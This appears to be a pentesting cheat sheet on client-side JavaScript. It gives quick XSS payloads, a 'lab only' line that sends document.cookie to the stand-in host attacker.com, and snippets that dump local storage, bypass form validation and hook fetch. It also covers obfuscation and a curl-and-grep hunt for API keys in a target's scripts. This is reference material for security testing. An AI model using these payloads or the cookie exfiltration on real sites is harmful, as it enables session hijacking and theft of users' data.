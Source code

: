 ## 🎯 Common uses in pentesting

✅ **Client-side recon** – find hidden endpoints, API keys, or logic.  
✅ **Testing XSS payloads.**  
✅ **Tampering / debugging front-end validation.**  
✅ **Session hijacking or token theft.**  
✅ **Exploiting CSP weaknesses or DOM-based XSS.**  
✅ **API fuzzing / replaying AJAX calls.**

---

## 🔥 Quick XSS payloads

"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"><svg/onload=alert(1)>
javascript:alert(document.cookie)

```
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"><svg/onload=alert(1)>
javascript:alert(document.cookie)
```

---

## 🛠 Useful JS snippets for testing

// Steal cookies (lab only)
fetch("http://attacker.com/cookie?c=" + document.cookie);

// List all form fields
document.querySelectorAll('input, select, textarea').forEach(e => console.log(e));

// Override JS validation
Object.defineProperty(document.forms[0], 'onsubmit', { value: () => true });

// Dump local storage
console.log(localStorage);

// Intercept fetch
const origFetch = fetch;
fetch = function() { console.log(arguments); return origFetch.apply(this, arguments); };

```
// Steal cookies (lab only)
fetch("http://attacker.com/cookie?c=" + document.cookie);

// List all form fields
document.querySelectorAll('input, select, textarea').forEach(e => console.log(e));

// Override JS validation
Object.defineProperty(document.forms[0], 'onsubmit', { value: () => true });

// Dump local storage
console.log(localStorage);

// Intercept fetch
const origFetch = fetch;
fetch = function() { console.log(arguments); return origFetch.apply(this, arguments); };
```

---

## 🔍 Debugging / Testing Tools

|Tool|Use case|
|---|---|
|`console.log()`|Print debug info|
|`debugger;`|Triggers browser debug pause|
|Chrome DevTools|Inspect network, breakpoints|
|`JSON.stringify(obj,null,2)`|Pretty-print objects|
|Proxy tools (Burp, ZAP)|Manipulate requests|

---

## 🕸️ JS obfuscation / deobfuscation

### ✅ Obfuscate JavaScript

- [https://codebeautify.org/javascript-obfuscator](https://codebeautify.org/javascript-obfuscator "https://codebeautify.org/javascript-obfuscator")
    
    > Quick way to obfuscate simple scripts.
    

### ✅ Deobfuscate JavaScript

- [https://obf-io.deobfuscate.io/](https://obf-io.deobfuscate.io/ "https://obf-io.deobfuscate.io/")
    
    > Deobfuscate packed/minified JS.
    

---

## 📖 Example: simple obfuscation

// Original
alert('Hacked!');

// Obfuscated via codebeautify
var _0x5e45=["\x48\x61\x63\x6B\x65\x64\x21"];alert(_0x5e45[0]);

```
// Original
alert('Hacked!');

// Obfuscated via codebeautify
var _0x5e45=["\x48\x61\x63\x6B\x65\x64\x21"];alert(_0x5e45[0]);
```

---

## ⚡ Tips

✅ Check `.js` files in the site — often `/static/*.js`, `/js/app.js`, etc.  
✅ Look for hardcoded secrets, API keys, tokens.  
✅ Grep for suspicious code:

curl https://target.com/app.js | grep -iE "api|key|token|secret"

```
curl https://target.com/app.js | grep -iE "api|key|token|secret"
```

✅ Use **DevTools -> Sources** or **Network -> JS responses** to find dynamically loaded scripts.